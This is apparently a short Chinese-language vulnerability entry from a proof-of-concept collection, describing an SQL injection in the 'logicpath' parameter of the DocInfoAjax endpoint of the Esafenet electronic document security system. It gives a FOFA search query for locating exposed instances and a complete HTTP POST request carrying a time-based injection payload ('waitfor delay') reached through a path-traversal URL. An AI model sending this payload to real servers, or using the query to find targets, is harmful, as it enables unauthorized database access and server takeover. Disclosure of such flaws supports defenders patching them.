 # 亿赛通电子文档安全管理系统DocInfoAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` DocInfoAjax`接口的`logicpath`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../DocInfoAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=JudgeHasFile&logicpath==-1'waitfor delay '0:0:5'--
```

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501122249109.png)
